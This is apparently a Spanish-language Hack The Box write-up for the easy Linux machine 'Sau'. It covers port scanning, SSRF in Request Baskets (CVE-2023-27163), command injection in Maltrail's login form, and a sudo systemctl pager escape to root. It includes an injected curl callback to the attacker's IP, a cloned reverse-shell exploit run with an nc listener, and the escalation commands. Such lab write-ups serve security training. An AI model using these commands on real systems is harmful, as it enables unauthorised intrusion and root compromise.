# Hack The Box — Sau

| OS | Difficulty | Techniques |
|---|---|---|
| Linux | Easy | SSRF in Request Baskets (CVE-2023-27163), Maltrail command injection, sudo abuse (systemctl) |

# Introducción


# Enumeración

Se encuentran abiertos los puertos 22 y 55555. El puerto 80 se encuentra filtrado.
```bash
nmap -sS 10.129.229.26
```

En el puerto 55555 se encuentra un Request Bastkets, es básicamente un visor de peticiones a servicios que creas.


He creado un ejemplo para ver como funciona


La petición que devuelve es la siguiente

# Pre-Explotación

Al leer e encontrado que hay una vulnerabilidad ya existente usando el CVE-2023-27163 puedo ir al puerto 80 filtrado

```
Forward URL: http://127.0.0.1
Expand Forward Path: activado
```

Al meternos gracias al expand Forward path podemos entrar dentro y vemos que hay un Maltrail

```
http://10.129.229.26:55555/mg42aog/
```
# Explotación

Miro si se puede usar uno de los parámetros para inyectar código

```bash
curl 'http://10.129.229.26:55555/mg42aog/login' \
  --data-urlencode 'username=;`curl 10.10.15.1:4444`' \
  --data-urlencode 'password=x'
```


Entonces le paso una reverse shell uso un exploit ya existente

```bash
git clone https://github.com/spookier/Maltrail-v0.53-Exploit
cd Maltrail-v0.53-Exploit
python3 exploit.py 10.10.15.1 4444 http://10.129.229.26:55555/mg42aog
```

Logramos acceso a la maquina

```bash
nc -lvnp 4444
```
# Post-Explotación

Listamos que puede hacer sudo (Permisos y SUID)

```bash
sudo -l
```

Al poner !bash en este tipo de sistemas podemos invocar una y como tengo permisos de sudo dicha bash será de root

```bash
sudo /usr/bin/systemctl status trail.service
!bash
```

Conseguimos ser root

```bash
cat root.txt
```

****PWNED!****
